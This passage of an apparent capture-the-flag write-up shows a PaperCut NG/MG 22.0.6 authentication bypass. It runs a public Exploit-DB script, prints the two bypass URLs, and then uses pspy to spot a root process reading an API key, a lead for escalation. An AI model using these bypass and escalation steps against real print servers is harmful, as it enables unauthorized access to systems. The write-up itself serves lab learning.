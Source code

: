 ```bash
Last login: Mon Apr 22 18:19:47 2024 from 10.8.1.18
papercut@bamboo:~$
```

We can access http://127.0.0.1:9191/
But we need credentials, bypass login etc to do something.

After spending some time researching, we found this:

https://www.exploit-db.com/exploits/51391

This appears to be an auth bypass, with our version of PaperCut NG/MG.

Running the exploit & we got this:

```bash
vaillant@sss ~
❯ python Downloads/51391.py                                       

Enter the ip address: 127.0.0.1
Version: 22.0.6
Vulnerable version
Step 1 visit this url first in your browser: http://127.0.0.1:9191/app?service=page/SetupCompleted
Step 2 visit this url in your browser to bypass the login page : http://127.0.0.1:9191/app?service=page/Dashboard
```

It works !
We bypassed the login.

On this last step, I was spoiled by a friend, so I very quickly understood what to do.
I set up a spy to see what was happening on the machine when I was using the PaperCut NG, and completely randomly I came across this:

```bash
(remote) papercut@bamboo:/home/papercut$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/04/22 18:30:20 CMD: UID=1001  PID=1864   | ./pspy64
2024/04/22 18:30:20 CMD: UID=0     PID=1832   |
2024/04/22 18:30:20 CMD: UID=1001  PID=1791   | -bash
2024/04/22 18:30:20 CMD: UID=1001  PID=1790   | sshd: papercut@pts/1                                                                                     
2024/04/22 18:30:20 CMD: UID=0     PID=1732   | sshd: papercut [priv]
2024/04/22 18:30:20 CMD: UID=0     PID=2      |
2024/04/22 18:30:20 CMD: UID=0     PID=1      | /sbin/init
2024/04/22 18:32:42 CMD: UID=0     PID=1879   | bash -c "/home/papercut/server/bin/linux-x64/server-command" get-config health.api.key
2024/04/22 18:32:42 CMD: UID=0     PID=1881   | cat /proc/1/comm
2024/04/22 18:32:42 CMD: UID=0     PID=1882   | /bin/sh /home/papercut/server/bin/linux-x64/server-command get-config health.api.key
```
